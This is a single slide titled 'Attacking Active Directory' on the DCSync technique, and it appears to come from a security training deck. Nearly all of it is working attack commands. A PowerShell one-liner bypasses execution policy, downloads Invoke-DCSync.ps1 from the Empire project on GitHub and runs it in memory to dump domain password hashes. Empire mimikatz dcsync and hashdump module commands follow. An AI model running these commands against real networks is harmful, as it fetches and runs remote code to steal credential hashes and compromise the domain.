

# Attacking Active Directory
DCSync
Raw:
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-DCSync.ps1'); Invoke-DCSync -PWDumpFormat;“

In Empire:
usemodule credentials/mimikatz/dcsync
usemodule credentials/mimikatz/dcsync_hashdump